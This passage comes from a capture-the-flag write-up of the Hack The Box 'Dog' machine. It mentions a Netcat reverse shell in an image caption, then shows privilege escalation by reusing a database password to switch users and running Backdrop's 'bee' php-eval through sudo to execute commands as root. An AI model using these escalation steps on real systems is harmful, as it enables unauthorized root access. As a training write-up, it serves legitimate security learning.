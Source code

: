     ![Terminal screenshot showing Netcat listener receiving a reverse shell](/cv-juan/images/dog-htb/reverse-shell.png "Reverse Shell Connection")
    *Caption: Netcat listener successfully catching a reverse shell from the 'Dog' machine.*

    We received a `www-data` shell on our Netcat listener!

    ---

    ## 5. Privilege Escalation

    Once `www-data`, we enumerated the users on the system.

    ```bash
    www-data@dog:/var/www/html/modules/shell$ ls -l /home
    total 8
    drwxr-xr-x 2 jobert jobert 4096 Apr 20 2025 jobert
    drwxr-xr-x 2 johncusack johncusack 4096 Apr 20 2025 johncusack
    ```

    We found the users `jobert` and `johncusack`.

    Recalling the password `BackDropJ2024052824` we found for `root` from the database, we attempted to `su` to `johncusack` with it.

    ```bash
    www-data@dog:/home$ su johncusack
    Password: BackDropJ2024052824
    johncusack@dog:/home$
    ```

    Success! We have switched to the `johncusack` user.

    ### Escalating to Root with `sudo` and `bee`

    As `johncusack`, we checked the `sudo` permissions:

    ```bash
    johncusack@dog:~$ sudo -l
    [sudo] password for johncusack: BackDropJ2024052824
    Matching Defaults entries for johncusack on dog:
        env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

    User johncusack may run the following commands on dog:
        (ALL : ALL) /usr/local/bin/bee
    ```

    `johncusack` can execute `/usr/local/bin/bee` as any user (ALL) and as root (ALL), without requiring an additional password if already authenticated as `johncusack`.

    The `bee` tool is an executable for Backdrop CMS that allows evaluating PHP code. We can use its `php-eval` subcommand to execute arbitrary PHP code as `root`.

    ```bash
    johncusack@dog:~$ sudo /usr/local/bin/bee --root=/var/www/html php-eval 'system("whoami")'
    root
    ```
